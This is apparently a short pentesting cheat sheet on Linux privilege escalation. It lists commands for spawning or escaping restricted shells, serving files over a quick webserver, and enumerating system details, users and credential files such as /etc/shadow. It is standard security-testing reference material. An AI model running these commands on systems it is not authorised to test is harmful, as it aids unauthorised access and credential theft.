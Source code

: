 # Linux Privilege Escalation

Spawning shell/break restricted shell

    python -c 'import pty; pty.spawn("/bin/sh")'
	
	/bin/sh -i
	
	echo os.system('/bin/bash')
	
	(From within vi)
	:!bash
	
	
Add all binary paths if PATH variable is lacking

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Set up webserver

    python -m SimpleHTTPServer 8080
     

Basic System Information

	uname -a
	cat /etc/*release
	cat /proc/version
    cat /etc/issue
	
Enviromental variables

	cat /etc/profile
	cat/etc/bashrc
	cat  $HOME/.bash_profile
	cat $HOME/.bashrc
	env
	set

Users
	
	Current user:
	id
	
	Other users:
	who
	w
	last
	cat /etc/passwd
	cat /etc/group
    cat /etc/shadow
	
	Find files with specific group permissions:
	find / -type d -group groupname -perm -g=r -print 2>/dev/null
	
	Users with login:
    grep -vE "nologin" /etc/passwd
	
    Check user home directories:
	ls -ahlR /root/
	ls -ahlR /home/
	